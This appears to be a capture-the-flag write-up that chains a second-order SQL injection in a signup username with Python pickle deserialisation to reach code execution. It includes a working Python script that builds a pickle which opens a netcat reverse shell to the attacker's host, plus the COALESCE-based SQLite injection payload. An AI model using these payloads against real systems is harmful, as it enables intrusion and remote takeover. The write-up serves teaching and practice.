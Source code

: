 This was a relatively complex challenge, since it had two major vulnerabilities which had to be used together (as well as a couple of red herrings). The code was supplied and reading it was key to finding the vulnerabilities (solving this blind is basically not possible). 

# SQL Injection

The first line of code which should raise alarm bells is this one in `db.py`:

![](/Assets/Pasted%20image%2020241003185935.png)

Despite the "reassuring" comment, this line is vulnerable to SQL injection. 

Since all the other SQL queries are properly prepared, it is possible to insert a SQL injection payload into the username field when signing up for an account. This will not raise an error at registration time, but will trigger a SQL injection when a new post is added.

For example if you set your username to `abc' MY SQL PAYLOAD; --`, it would be inserted into the `User` field as is. The username session variable would then be set to that when you logged in. This variable is then passed into `insert_post` when a new post is created, resulting in the query

`INSERT INTO Post (Username, Post) VALUES ('abc' MY SQL PAYLOAD; --', ?)`

The register page on the site does not accept `'` characters in the username field, but this is only checked client-side, and can be trivially bypassed using BurpSuite, or by sending a POST request directly with cURL.

It may not be immediately obvious how this can be exploited to do anything useful, but with a bit more reading, you should spot another dubious element.

# Insecure Deserialisation

Taking a look inside `post.py` to see what's actually stored in the database, will show you that posts are Python objects which are pickled when stored.

![](/Assets/Pasted%20image%2020241003191345.png)

Pickle is very unsafe, and is capable of executing arbitrary code when loading a crafted pickle object.
[This](https://davidhamann.de/2020/04/05/exploiting-python-pickle/) blog post explains the vulnerability and how to exploit it very well, but in essence if you pickle an object with the `__reduce__` method defined, when it is deserialised this method will be invoked, allowing for arbitrary code execution.

This requires control over data which will be passed to `pickle.loads`, which we can get using the aforementioned SQL injection. 

# Building an Exploit

We know that we can inject SQL into the query which is used to insert new pickle serialized posts into the database, and that if we can control pickle data which is loaded by `get_posts` we can get arbitrary code execution. It looks like we have a clear path forward that leads directly to RCE.

Since we control the entire `INSERT` query after the username, we control the `Post` field which will be inserted (which contains the raw pickle data that will be loaded by `get_posts`). A slightly poorly documented SQLite feature is that literal BLOBs (raw bytes) can be represented with the syntax `X'<hex data>'`. 

As such, we can first off construct a malicious pickle object which will run a command (in this case a netcat reverse shell) using a python script like so:

```python
import os
import pickle

MY_IP = "127.0.0.1" # change this to your IP
MY_PORT = 4444 # change this if you want

COMMAND = f"rm /tmp/p; mkfifo /tmp/p; cat /tmp/p | /bin/sh | nc {MY_IP} {MY_PORT} > /tmp/p"

class EvilPost:
	def __init__(self, cmd: str):
		self.cmd = cmd
	def __reduce__(self):
		return (os.system, (self.cmd,))

payload = pickle.dumps(EvilPost(COMMAND))
print(f"X'{payload.hex().upper()}'")
```

This will print our malicious serialized pickle data in SQLite BLOB format.

To inject this into the database, we would intuitively need a payload like `evilhacker', X'<pickle data>'); --`, as this would cause the query executed when creating a new post to look like 

`INSERT INTO Post (Username, Post) VALUES ('evilhacker', X'<pickle data>'); --', ?)`

However, this payload will not work, since SQLite expects there to be a `?` parameter in the query, which we have now commented out. A good way around this issue is to use the `COALESCE` SQL function. This function is effectively a null-coalescing operator which will return its first argument if it is not NULL, and its second argument otherwise. 

By using the COALESCE operator like `COALESCE(X'<pickle data>', ?)` we cause it to always return our malicious pickle data, while still allowing SQLite to substitute the parameter into the query. This makes our payload

`evilhacker', COALESCE(X'<pickle data>', ?)); --`

leading to the query

`INSERT INTO Post (Username, Post) VALUES ('evilhacker', COALESCE(X'<pickle data>', ?)); --', ?)`

# Triggering the Exploit

First of all, setup a netcat listener on the port you specified when creating the pickle payload.

Finally, to trigger the exploit, we can register an account with the above payload as our username (and whatever we want as the password). Then, we can create a new post containing whatever we want (since this data will never actually be added to the database). Then we need to log out, and register another account as `evilhacker` (again with any password). Logging into this account and viewing the posts will trigger the pickle payload to be deserialised and executed, and if all has gone well, we should get a shell.

![](/Assets/Pasted%20image%2020241003200328.png)

![](/Assets/Pasted%20image%2020241003200403.png)

![](/Assets/Pasted%20image%2020241003200450.png)

![](/Assets/Pasted%20image%2020241003200503.png)

![](/Assets/Pasted%20image%2020241003200533.png)

![](/Assets/Pasted%20image%2020241003200707.png)
